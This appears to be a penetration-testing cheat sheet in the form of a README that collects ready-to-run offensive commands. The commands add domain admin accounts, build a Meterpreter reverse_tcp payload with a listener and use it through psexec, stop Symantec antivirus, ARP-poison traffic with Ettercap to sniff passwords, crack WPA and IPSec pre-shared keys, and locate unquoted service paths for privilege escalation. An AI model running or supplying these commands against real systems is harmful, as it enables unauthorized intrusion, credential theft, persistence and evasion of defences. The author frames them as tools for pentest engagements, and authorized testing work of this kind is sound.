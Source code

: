 Pentesting Cheat Sheet
======================
These are various tips and tricks I have found useful on my pentest engagements. Most of these can be found using Google but I decided to put them in a central location to make them easily accessible. Hope they are as helpful to you as they are to me.

Mounting Shares
---------------
To mount an SMB share using a null session do one of the following depending on
the OS you are using.

    Windows> net use x: \\server\share "" /u:
    Linux> mount -t cifs //server/share -o username=,password= /mnt/point

To mount an NFS share on Linux use.

    mount -t nfs server:/share /mnt/point

Administrative Accounts
-----------------------
Add a new Windows domain admin account.

    net user username password /ADD /DOMAIN
    net group "Domain Admins" username /ADD /DOMAIN

Add a new Windows local admin account.

    net user username password /ADD
    net localgroup Administrators username /ADD

Add a new linux account and put them in the wheel group.

    useradd -G wheel username && echo "username:newpass"|chpasswd

Meterpreter Shell Error
-----------------------
If you get the error, "stdapi_sys_process_execute: Operation failed: 1314",
while trying to drop to as shell in meterpreter, try the code below. This is
a known bug in meterpreter.

    execute -f cmd.exe -c -i -H

Metasploit: Custom Psexec Executable
------------------------------------
The first thing we need to do is generate a custom executable to use with Meterpreter.

    msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=4445 R | msfencode -t exe -e x86/shikata_ga_nai -c 5 > custom.exe

Next we need to setup a multi handler to listen for connections.

    msf > use exploit/multi/handler
    msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
    PAYLOAD => windows/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 192.168.0.1
    LHOST => 192.168.0.1
    msf exploit(handler) > set LPORT 4445
    LPORT => 4445
    [*] Started reverse handler on 192.168.0.1:4445
    [*] Starting the payload handler...

In another msfconsole session we need to configure the psexec exploit module to use our custom executable.

    msf > use exploit/windows/smb/psexec
    msf exploit(psexec) > set RHOST 192.168.0.2
    RHOST => 192.168.0.2
    msf exploit(psexec) > set SMBUser user
    SMBUser => user
    msf exploit(psexec) > set SMBPass pass
    SMBPass => pass
    msf exploit(psexec) > set EXE::Custom /path/to/custom.exe
    EXE::Custom => /path/to/custom.exe

Finally, we need to run the exploit. If everything worked then you should see a new meterpreter session open in multi/handler

    msf exploit(psexec) > exploit

Disable Antivirus
-----------------
This command will disable Symantec Endpoint Protection. I find it useful when
I have a basic shell on a box and want to upgrade to Meterpreter but Symantec
stops me.

    c:\program files\symantec\symantec endpoint protection\smc -stop

Use Ettercap to Sniff Traffic
-----------------------------
Ettercap allows us to do arp poisoning and sniff plaintext passwords.

    ettercap -M arp -T -q -i interface /spoof_ip/ /target_ips/ -w output_file.pcap

Cracking WPA/WPA2 PSK
---------------------
Use JtR to generate candidate passwords for aircrack-ng

    john --incremental:all --stdout | aircrack-ng --bssid 00-00-00-00-00-00 -a 2 -w - capture_file.cap

Use Hashcat to generate candidate passwords for aircrack-ng

    ./hashcat-cli32.bin wordlist -r rules/d3ad0ne.rule --stdout | aircrack-ng --bssid 00-00-00-00-00-00 -a 2 -w - capture_file.cap

Cracking IPSec Agressive Mode Pre-Shared Key
--------------------------------------------
If you’ve never done this, read these first.
http://www.nta-monitor.com/wiki/index.php/Ike-scan_User_Guide
http://carnal0wnage.attackresearch.com/2011/12/aggressive-mode-vpn-ike-scan-psk-crack.html

To find aggressive mode VPNS use ike-scan.

    ike-scan -A 192.168.1.0/24

If the default transforms don't work use the generate_transforms.sh script from the user guide above.

    generate-transforms.sh | xargs --max-lines=8 ike-scan 10.0.0.0/24

If you find a SonicWALL VPN using agressive mode it will require a group id, the default group id is GroupVPN

    ike-scan 192.168.1.1 -A -id GroupVPN

Use the -P argument to save the handshake to a file, which can be used by psk-crack.

    ike-scan 192.168.1.1 -A -Ppsk_192.168.1.1.txt

Use a dictionary to crack the pre-shared key.

    psk-crack -d /path/to/dictionary psk_192.168.1.1.txt

Basic Scanning with Nmap
------------------------
Discovery Scans:

	nmap -v -n -PE <target>
	nmap -v -n -PE -PO -PM -PP <target>
	nmap -v -n -PS21-23,25,53,80,443,3389 -PO -PE -PM -PP <target>

Detailed TCP Scans:

	nmap -v -sS -A --top-ports 10 -oA filename <target>
	nmap -v -sS -A -F -oA filename <target>
	nmap -v -sS -A -oA filename <target>
	nmap -v -sS -A -p 1-65535 -oA filename <target>

Detailed UDP Scans:

	nmap -v -sU -A --top-ports 10 -oA filename <target>
	nmap -v -sU -A -F -oA filename <target>
	nmap -v -sU -A -oA filename <target>
	nmap -v -sU -A -p 1-65535 -oA filename <target>


Create an IP List with Nmap
---------------------------
I find this particularly useful for tools or scripts that operate on new line delimited list of IP addresses. I can use the simple Nmap syntax to create a file with the list of appropriate IPs.

    nmap -sL -n 192.168.1.1-100,102-254 | grep "report for" | cut -d " " -f 5 > ip_list_192.168.1.txt

Crack Passwords with John and Korelogic Rules
---------------------------------------------
At one point Korelogic released a set of John the Ripper rules in a john.conf file. This bash one liner would grab each ruleset and run JtR with the specified ruleset.

    for ruleset in `grep KoreLogicRules john.conf | cut -d: -f 2 | cut -d\] -f 1`; do ./john --rules:${ruleset} -w:<wordlist> <password_file> ; done

Unquoted Service Paths
----------------------
Identify unquoted service paths that may be useful for privilege escalation.

    wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
    
https://www.commonexploits.com/unquoted-service-paths/
